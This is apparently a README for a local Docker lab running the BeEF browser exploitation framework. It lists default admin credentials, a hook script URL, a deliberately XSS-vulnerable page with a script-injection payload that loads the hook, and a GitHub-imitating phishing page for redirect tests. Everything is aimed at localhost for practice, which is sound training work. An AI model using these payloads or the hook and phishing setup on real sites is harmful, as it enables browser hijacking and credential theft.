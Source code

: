 # beef playground  
## build docker  
```
docker build -t beef-playground .  
docker run -it -p 80:80 -p 3000:3000 -p 6789:6789 beef-playground
```  
  
## beef server launched with  
admin web page: http://localhost:3000/ui/panel  
    user: beef  
    passwd: mybeefpasswd  
hook script: http://localhost:3000/hook.js  
  
## example pages accessible at:  
### Example hook:  
URL: http://localhost/hooked.html  
  
### Website with XSS vuln:  
XSS URL: http://localhost/xss-minimal.php  
input: ```<script src=http://localhost:3000/hook.js></script>```  
or in URL: http://localhost/xss-minimal.php?name=```<script src=http://localhost:3000/hook.js></script>```  
  
### Phishing page for redirect test:  
phishing page: http://localhost/github.html  
Module: Redirect iframe or standard  
  
## debug  
inspect docker container:  
```docker run -it --entrypoint /bin/bash beef-playground```  
in case any ruby gem installations are running an error, the solution is manual install.  
e.g. ```gem install xmlrpc```  
  
## More  
### One creating modules  
https://github.com/beefproject/beef/wiki/Module-creation  
### Usage with Metasploit  
https://github.com/beefproject/beef/wiki/Configuration#metasploit  
